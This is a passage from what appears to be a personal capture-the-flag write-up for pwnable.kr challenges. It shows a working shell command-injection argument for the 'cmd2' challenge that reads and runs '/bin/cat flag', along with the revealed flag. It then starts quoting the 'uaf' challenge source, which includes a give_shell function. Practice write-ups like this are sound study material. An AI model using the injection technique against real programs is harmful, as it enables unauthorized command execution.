 No need to say, I found a cool thing.

```shell
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'
$(read x; echo $x)
/bin/cat flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@pwnable:~$
```

COOL!!!

### uaf

![image-20220717042843643](assets/image-20220717042843643.png)

It's about heap ):

Source code: 

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
```